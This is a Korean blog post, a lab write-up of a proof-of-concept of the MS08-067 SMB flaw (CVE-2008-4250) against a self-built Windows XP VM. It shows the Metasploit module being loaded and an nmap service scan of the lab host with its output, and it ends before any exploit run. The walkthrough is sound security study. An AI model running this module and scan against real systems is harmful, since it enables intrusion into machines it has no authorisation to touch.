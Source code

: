 ```yaml
---
layout: post
title: "SMB 취약점(MS08-067) exploit POC"
categories: [보안, 취약점스캐너]
tags: [취약점, 스캐너, metasploit, MS08-067, SMB]
toc: true
last_modified_at: 2023-08-15 16:02:00 +0900
---
```


# 개요 
- 유명한 SMB취약점(MS08-067)을 POC해본다. 
- 이 취약점은 이름이 "Microsoft Server Service Relative Path Stack Corruption" 로 되어 있다. 
- 컨피커 웜이 악용한 것으로도 유명한 취약점이다. 
- CVE번호는 `CVE-2008-4250`이다.

포트 139는 NetBIOS(Network Basic Input Output System)의 이름 확인에 사용되고 포트 445는 SMB(Server Message Block)에 사용된다. 

# 취약한 환경 구성하기 
- 취약한 환경은 Windows XP로 구성했다. 
- 책이나 웹 문서를 찾아봐도 실제로 어떻게 취약한 환경을 만드는지를 제대로 설명해주는 부분이 없어서 따로 찾아보면서 만들었다. 
- 자세한 것은 [Windows XP 환경 구성하기]({% post_url 2023-08-14-virtualbox-windows-xp %})에 정리해두었다. 
- 기본 설치만으로도 취약점은 재현 가능했다. 따로 공유폴더 설정까지 해둘 필요는 없었다. 

# exploit 실시 
## 모듈 로드 

```sh
msf6 > use exploit/windows/smb/ms08_067_netapi
```

## Nmap 으로 포트 스캔
- 공격 대상은 192.168.56.104 에서 운영중인 Windows XP 시스템이다. 
- 135,139,445 포트가 열려있는 것, 그리고 해당 포트에서 운영중인 서비스를 확인했다! 

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > nmap -sV 192.168.56.104
[*] exec: nmap -sV 192.168.56.104

Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 23:25 EDT
Nmap scan report for 192.168.56.104
Host is up (0.92s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.78 seconds
msf6 exploit(windows/smb/ms08_067_netapi) > 

```
